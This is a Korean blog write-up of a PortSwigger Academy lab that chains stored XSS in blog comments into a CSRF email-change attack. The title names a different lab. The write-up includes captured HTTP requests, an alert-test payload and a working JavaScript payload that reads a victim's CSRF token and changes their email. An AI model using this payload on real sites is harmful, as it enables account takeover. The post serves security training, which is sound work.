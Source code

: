 ```yaml
---
layout: post
title: "Burp Academy-XSS 취약점: Exploiting cross-site scripting to capture passwords"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XSS취약점]
toc: true
last_modified_at: 2024-09-02 21:55:00 +0900
---
```


# 개요
- XSS를 이용하여 CSRF 공격을 하는 문제이다. 
- 취약점 설명 주소: https://portswigger.net/web-security/cross-site-scripting/exploiting
- 문제 주소: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf
- 난이도: PRACTITIONER (보통)

# 취약점 설명
합법적인 사용자가 웹사이트에서 할 수 있는 모든 일은 아마도 XSS로도 할 수 있을 것이다. 타겟으로 삼는 사이트에 따라 피해자에게 메시지를 보내거나, 친구 요청을 수락시키거나, 소스 코드 저장소에 백도어를 커밋하거나, 비트코인을 일부 전송할 수 있다. 

**일부 웹사이트에서는 로그인한 사용자가 비밀번호를 다시 입력하지 않고도 이메일 주소를 변경할 수 있다.** 이 사이트에서 XSS 취약점을 발견했다면 이 기능을 트리거하여 피해자의 이메일 주소를 공격자가 제어하는 ​​이메일 주소로 변경한 다음 비밀번호 재설정을 트리거하여 계정에 액세스할 수 있다. 

이러한 유형의 익스플로잇은 일반적으로 크로스 사이트 요청 위조(CSRF)라고 하며, CSRF가 단독 취약점으로 발생할 수도 있기 때문에 약간 혼란스럽다. CSRF가 단독 취약점으로 발생하는 경우 안티-CSRF 토큰과 같은 전략을 사용하여 패치할 수 있다. 그러나 이러한 전략은 XSS 취약점도 있는 경우 어떠한 보호도 제공하지 않는다. 

# 문제
- 이 랩에는 블로그 댓글 기능에 저장형 XSS 취약점이 있다. 
- 랩을 풀려면 취약점을 악용하여 CSRF 공격을 수행하여 블로그 게시물 댓글을 보는 사람의 이메일 주소를 변경한다. 
- 다음 크레덴셜을 사용하여 자신의 계정에 로그인할 수 있다: wiener:peter

```
This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: wiener:peter
```

# 풀이 
1. 주어진 크레덴셜로 로그인해서 메일주소 변경요청을 해본다. 일단 로그인한 뒤에 자신의 계정관리로 들어간다. 

```http
GET /my-account?id=wiener HTTP/2
Host: 0a6e00cd0499972583dc288000b40034.web-security-academy.net
Cookie: session=QZnAt4S7KgLS8YzQ4HmZQWlAEmn2seGn
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://0a6e00cd0499972583dc288000b40034.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Priority: u=0, i


```

응답에는 다음 코드가 포함되어 있다. 이를 통해 내 계정 관리 엔드포인트(GET /my-account)의 응답에 CSRF토큰이 포함되어 있는 것을 알았다. 

```http

<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <input required type="hidden" name="csrf" value="iCLEz7kBobXVoC2bYEMYjUrQJpwUK220">
    <button class='button' type='submit'> Update email </button>
```


2. 이메일을 변경해본다. 패스워드 재요청단계는 없다. 이를 통해 세션쿠키와 CSRF토큰이 있으면 이메일 주소를 변경할 수 있다는 것을 알았다. 

※ 참고로 세션토큰은 Secure속성과 HttpOnly 속성이 부여되어 있다. XSS를 사용해서 자바스크립트를 통해 세션토큰에 직접 접근하는 것은 할 수 없다. 

```http
POST /my-account/change-email HTTP/2
Host: 0a6e00cd0499972583dc288000b40034.web-security-academy.net
Cookie: session=QZnAt4S7KgLS8YzQ4HmZQWlAEmn2seGn
Content-Length: 57
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a6e00cd0499972583dc288000b40034.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6e00cd0499972583dc288000b40034.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Priority: u=0, i

email=ee%40test.com&csrf=iCLEz7kBobXVoC2bYEMYjUrQJpwUK220
```

3. XSS가 있는 곳을 확인한다. 댓글을 등록하는 요청의 comment 파라메터를 테스트해본다. 

```http
POST /post/comment HTTP/2
Host: 0a6e00cd0499972583dc288000b40034.web-security-academy.net
Cookie: session=NwxRcG7GwxSgOTkh0VZClBAhVC3XhOS9
Content-Length: 124
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a6e00cd0499972583dc288000b40034.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a6e00cd0499972583dc288000b40034.web-security-academy.net/post?postId=3
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Priority: u=0, i

csrf=ylvidDriJQ2GCzSFP12ndfNn88yAEcPj&postId=3&comment=<script>alert(1);</script>&name=moon&email=moon%40tester.com&website=
```

302응답이 돌아온다. 블로그 글 페이지를 확인해보면 `alert(1);` 이 실행되는 것을 확인할 수 있다.  Stored XSS 취약점이 있는 것을 확인했다. 

```
HTTP/2 302 Found
Location: /post/comment/confirmation?postId=3
X-Frame-Options: SAMEORIGIN
Content-Length: 0


```

![](/images/burp-academy-xss-16-1.png)

4. 이메일 주소 수정 기능과 XSS가 있는 곳을 확인했다. 그러면 CSRF를 수행하는 XSS페이로드를 만들어보자. 블로그 글을 보는 로그인한 유저가 자신의 이메일 주소를 공격자가 지정한 이메일 주소로 변경하도록 만든다.

다음과 같이 만든다. 이 코드가 실행되면, victim은 자신의 my-account 엔드포인트에서 CSRF토큰을 얻어온 후, test@test.com으로 메일 주소를 변경하는 요청을 보내게 된다. 

```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

5. 위의 페이로드가 실행되도록 저장한다. 

![](/images/burp-academy-xss-16-2.png)


6. 그러면 잠시 뒤 문제가 풀렸다는 메세지가 출력된다. 


![](/images/burp-academy-xss-16-success.png)
